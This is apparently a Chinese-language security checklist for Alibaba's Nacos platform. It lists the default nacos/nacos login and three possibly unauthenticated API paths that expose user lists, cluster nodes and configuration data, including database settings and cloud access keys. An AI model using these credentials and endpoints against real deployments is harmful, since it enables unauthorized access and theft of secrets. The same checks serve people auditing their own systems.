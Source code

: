 # Nacos 漏洞 Checklist

## 一、前置知识

### 0x01 Nacos 概述

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

## 二、默认口令登录

Nacos 默认帐户名密码：

```
nacos/nacos
```

## 三、可能存在的未授权 API

### 0x01 用户信息 API

```
/nacos/v1/auth/users?pageNo=1&pageSize=9
```

### 0x02 集群信息 API

```
/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=
```

### 0x03 配置信息 API

```
/nacos/v1/cs/configs?dataId=&group=&appName=&config_tags=&pageNo=1&pageSize=9&tenant=&search=accurate&accessToken=&username=
```

这一接口在未授权的情况下可能会暴露 Spring、MySQL、Redis、Druid 等配置信息，若存在云环境、文件系统，还可能暴露 accessKey、secretKey 等。

获取配置信息示例：

![image-20230609161347780](images/image-20230609161347780.png)
